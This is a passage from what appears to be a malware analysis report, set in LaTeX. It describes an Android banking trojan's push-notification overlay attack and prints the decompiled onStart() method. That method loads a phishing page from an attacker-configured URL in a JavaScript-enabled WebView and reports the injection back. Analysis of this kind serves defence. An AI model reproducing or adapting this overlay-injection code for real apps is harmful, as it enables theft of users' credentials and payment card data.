 \documentclass[10pt,titlepage]{article}
\begin{document}
Once the user clicked on the Notification the \textit{naqsl/ebxcb.exu.Activity.ActivityPushInjection} Activity will be shown. The \textit{naqsl/ebxcb.exu.Activity.ActivityPushInjection.onStart()} function configures a \textit{android.view.WebView} instance to load an url read from the config file (read config file is done using the \textit{ifdf.fddo()} function (see Listing \ref{activitypushinjectiononstart}. The function \textit{android.view.WebView.loadUrl()} initiates the target web page to be loaded. 

Now the malware can load a web page that looks like the target app and can phish credentials, credit card information and much more.

\newpage
\begin{lstlisting}[label=activitypushinjectiononstart,caption=The \textit{naqsl.ebxcb.exu.Activity.ActivityPushInjection.center}
  function initializes a webview pointing to an url loaded from the shared preferences.,frame=tb]
    public void onStart() {
        super.onStart();
        this.ifdf.ifdf(this, "name", "true");
        String fddo2 = this.ifdf.fddo((Context) this, "str_push_fish");
        String str = "";
        if (!fddo2.equals(str) || !fddo2.equals(null)) {
            this.f565fddo.getClass();
            try {
                str = this.ifdf.fddo((Context) this, "urlInj");
            } catch (Exception unused) {
            }
            WebView webView = new WebView(this);
            webView.getSettings().setJavaScriptEnabled(true);
            webView.setScrollBarStyle(0);
            webView.setWebViewClient(new Cfor());
            webView.setWebChromeClient(new ifdf());
            String country = Resources.getSystem().getConfiguration().locale.getCountry();
            StringBuilder sb = new StringBuilder();
            sb.append(str);
            sb.append("/fafa.php?f=");
            sb.append(fddo2);
            sb.append("&p=");
            sb.append(this.ifdf.fddo((Context) this));
            String str2 = "|";
            sb.append(str2);
            sb.append(country.toLowerCase());
            webView.loadUrl(sb.toString());
            setContentView(webView);
            Cint intR = this.ifdf;
            StringBuilder sb2 = new StringBuilder();
            sb2.append("p=");
            Cint intR2 = this.ifdf;
            StringBuilder sb3 = new StringBuilder();
            sb3.append(this.ifdf.fddo((Context) this));
            sb3.append("|Start injection ");
            sb3.append(fddo2);
            sb3.append(str2);
            sb2.append(intR2.m439for(sb3.toString()));
            intR.fddo((Context) this, "4", sb2.toString());
        }
    }
\end{lstlisting}
 
\end{document}
